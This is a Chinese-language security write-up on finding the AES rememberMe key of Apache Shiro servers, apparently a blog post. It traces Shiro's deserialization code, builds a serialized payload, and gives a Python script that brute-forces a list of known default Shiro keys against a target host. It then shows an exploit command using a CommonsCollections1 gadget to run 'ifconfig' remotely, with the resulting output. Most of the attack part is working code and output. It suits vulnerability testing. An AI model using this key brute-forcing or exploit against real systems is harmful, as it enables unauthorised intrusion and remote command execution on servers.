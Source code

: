 # Shiro快速检测Key方法

判断 shiro 的 key ，早期的POC检测采用 URLDNS 进行 dnslog 查询。没有 dnslog 的情况下，考虑直接用CC盲打会有延迟。甚至出现目标主机无法出网的情况

对Apache Shiro指纹检测通常是在 request 的 cookie 中写入 rememberMe=xxx ，再查看 response 的 set-cookie 是否出现 rememberMe=deleteMe 。

针对这个 rememberMe=deleteMe 进行思考，如果Key是正确的，返回的内容应该是如下信息：



  `'Set-Cookie':  'JSESSIONID=57f62121-faa3-44b3-bc3e-fd1a39cdc94f; Path=/; HttpOnly'`  



对RemeberMe处理的核心代码位于 **AbstractRememberMeManager#getRememberedPrincipals**

```
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
        PrincipalCollection principals = null;

try {
            byte[] bytes = this.getRememberedSerializedIdentity(subjectContext);
if (bytes != null && bytes.length > 0) {
                principals = this.convertBytesToPrincipals(bytes, subjectContext);
            }
        } catch (RuntimeException var4) {
            principals = this.onRememberedPrincipalFailure(var4, subjectContext);
        }

return principals;
    }
```

进入**AbstractRememberMeManager#convertBytesToPrincipals** 方法当中，当前的Key正确的。所以经过 decrypt 处理之后返回 bytes 数组，进入 deserialize 方法进行反序列化处理。

```
protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
if (this.getCipherService() != null) {
            bytes = this.decrypt(bytes);
        }

return this.deserialize(bytes);
    }
```

跟进 deserialize 方法

```
protected PrincipalCollection deserialize(byte[] serializedIdentity) {

	return (PrincipalCollection)this.getSerializer().deserialize(serializedIdentity);
    
}
```

如果反序列化执行链未继承 PrincipalCollection，类型转换会发生报错

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/shiro_key/1.png)



**构造POC**

实现通过Key进行检测漏洞需要满足两点：

1. 构造一个继承 PrincipalCollection 的序列化对象。
2. key正确情况下不返回 deleteMe ，key错误情况下返回 deleteMe 。

基于这两个条件下 SimplePrincipalCollection 这个类自然就出现了，这个类可被序列化，继承了 PrincipalCollection 。

 

生成序列化代码如下：

```
 SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
 ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream("payload"));
 obj.writeObject(simplePrincipalCollection);
 obj.close();
```

生成的16进制字符串如下：

```
aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078
```

关键POC代码如下：

```
import base64
import binascii
import uuid
from dataclasses import dataclass
from urllib.parse import ParseResult

import requests
from Crypto.Cipher import AES

省略部分….

target = "http://"+target + ":" + str(port)

    yso_payload = '''aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078'''

    payload = binascii.a2b_hex(yso_payload)

    # AES Encrypte and base64 encode
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    SHIRO_KEYS =["kPH+bIxk5D2deZiIxcaaaA==","2AvVhdsgUs0FSA3SDFAdag==","3AvVhmFLUs0KTA3Kprsdag==","4AvVhmFLUs0KTA3Kprsdag==","5aaC5qKm5oqA5pyvAAAAAA==","6ZmI6I2j5Y+R5aSn5ZOlAA==","bWljcm9zAAAAAAAAAAAAAA==","wGiHplamyXlVB11UXWol8g==","Z3VucwAAAAAAAAAAAAAAAA==","MTIzNDU2Nzg5MGFiY2RlZg==","U3ByaW5nQmxhZGUAAAAAAA==","5AvVhmFLUs0KTA3Kprsdag==","fCq+/xW488hMTCD+cmJ3aQ==","1QWLxg+NYmxraMoxAXu/Iw==","ZUdsaGJuSmxibVI2ZHc9PQ==","L7RioUULEFhRyxM7a2R/Yg==","r0e3c16IdVkouZgk1TKVMg==","bWluZS1hc3NldC1rZXk6QQ==","a2VlcE9uR29pbmdBbmRGaQ==","WcfHGU25gNnTxTlmJMeSpw==","ZAvph3dsQs0FSL3SDFAdag==","tiVV6g3uZBGfgshesAQbjA==","cmVtZW1iZXJNZQAAAAAAAA==","ZnJlc2h6Y24xMjM0NTY3OA==","RVZBTk5JR0hUTFlfV0FPVQ==","WkhBTkdYSUFPSEVJX0NBVA=="]
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    for SHIRO_KEY in SHIRO_KEYS:
        encryptor = AES.new(base64.b64decode(SHIRO_KEY), AES_MODE, AES_IV)
        file_body = PAD_FUNC(payload)
        base64_ciphertext = base64.b64encode(AES_IV + encryptor.encrypt(file_body))
        response = requests.get(target, proxies=proxies, timeout=9, cookies={"rememberMe": base64_ciphertext.decode()})
        print(response.headers)
        if "\'Set-Cookie\': \'JSESSIONID=" in str(response.headers):
            warning_info = "{} Apache Shiro 1.2.4 反序列化漏洞 Key is: {} \r\n ".format(
                target,SHIRO_KEY)
            print(warning)
            return


```

检测效果

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/shiro_key/2.png)



但是新版本Shiro(>=1.4.2)采用了AES-GCM加密方式，对Key的检测需要使用新的加密方式。修改AES_MODE 修改为 AES.MODE_GCM

 

在对高版本的Shiro 进Key爆破，如需配合ysoerial使用请在脚本中更改yso_path的路径指向本机对应的ysoserial.jar

https://github.com/Ares-X/shiro-exploit

```
╰─➤ python3 shiro-exploit.py echo -g CommonsCollections1 -u http://127.0.0.1 -v 2 -k zSyK5Kp6PZAAjlT+eeNMlg== -c ifconfig
Congratulation: exploit success
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 16384
	options=1203<RXCSUM,TXCSUM,TXSTATUS,SW_TIMESTAMP>
	inet 127.0.0.1 netmask 0xff000000
	inet6 ::1 prefixlen 128
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1
	nd6 options=201<PERFORMNUD,DAD>
gif0: flags=8010<POINTOPOINT,MULTICAST> mtu 1280
stf0: flags=0<> mtu 1280
ap1: flags=8802<BROADCAST,SIMPLEX,MULTICAST> mtu 1500
	options=400<CHANNEL_IO>
	ether 3a:81:7f:08:7b:ce
	media: autoselect
	status: inactive

```

出现Congratulation说明存在漏洞，无法获取命令执行结果可能因为命令有误,请更换命令或复制到burp手动利用查看回显